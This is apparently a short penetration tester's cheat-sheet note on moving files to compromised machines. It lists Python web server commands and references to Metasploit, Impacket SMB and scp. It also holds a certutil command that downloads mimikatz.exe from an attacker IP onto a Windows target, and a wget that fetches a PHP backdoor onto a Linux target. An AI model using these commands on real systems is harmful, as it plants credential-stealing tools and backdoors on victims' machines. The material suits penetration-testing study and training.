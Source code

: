 # (Almost) All The Ways to File Transfer
https://juggernaut-sec.com/linux-file-transfers-for-hackers/
https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65
# Metasploit
![[Metasploit#Payload deploy]]

# Python Web Server

```python
python -m SimpleHTTPServer 80 # python 2.x
python -m http.server 80 # python 3.x
```

# Python SMB Server
![[impacket#smbserver]]


# Transfering files to Windows Targets

```PS
certutil -urlcache -f http://10.10.5.2/mimikatz.exe mimikatz.exe
```
# Transfering files to Linux Targets
```bash
wget http://192.196.45.2/php-backdoor.php
curl ...
```
![[(reverse) shell#scp]]
